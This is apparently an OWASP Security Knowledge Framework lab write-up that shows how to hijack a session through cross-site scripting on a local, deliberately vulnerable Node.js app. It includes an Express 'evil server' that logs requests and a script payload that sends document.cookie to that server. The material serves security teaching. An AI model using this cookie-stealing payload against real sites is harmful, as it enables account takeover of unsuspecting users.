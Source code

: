 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/3.png)

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/4.png)

## Exploitation

Now that we have determined that we can

1. inject malicious javascript

2. The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  console.log(req.query);
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ node evil_server.js
```

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/5.png)

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
